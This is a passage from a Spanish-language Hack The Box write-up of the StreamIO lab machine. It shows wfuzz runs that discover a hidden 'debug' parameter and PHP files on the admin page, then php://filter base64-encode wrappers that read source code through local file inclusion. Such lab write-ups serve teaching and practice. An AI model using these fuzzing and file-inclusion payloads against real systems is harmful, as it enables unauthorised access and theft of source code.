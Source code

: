 ```ruby
000000231:   200        398 L    916 W      12484 Ch    "staff"                                                                                          
000001047:   200        10790    25878 W    320235 Ch   "movie"                                                                                                                                                                                  
000005697:   200        49 L     137 W      1712 Ch     "debug"
```

Existe el parametro "debug", pero es solo para programadores

<img src="/assets/images/htb/streamio/streamio6.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora intentemos FUZZEAR por algun archivo o argumento

```ruby
❯ wfuzz -c --hh=1712 -w /usr/share/SecLists/Discovery/Web-Content/SVNDigger/cat/Language/php.txt -u "https://streamio.htb/admin/?debug=FUZZ" -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a"

Target: https://streamio.htb/admin/?debug=FUZZ
Total requests: 20721

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                          
=====================================================================

000000186:   200        46 L     136 W      1693 Ch     "index.php"                                                                                      
000005319:   200        11182    26760 W    343443 Ch   "master.php" 
```

Dos archivos index.php y master.php, pero nos sigue diciendo que solo los programadores pueder verlo

Probamos algunos filtros como los siguientes:
```php
php://filter/convert.base64-encode/resource=index.php Lo representa en Base64

php://filter/convert.base64_encode/resource=index.php Devuelve todo el contenido y lo interpreta en la página 
```
Es más comodo que lo represente en base64 para que de nuestro lado sea más fácil de expresar
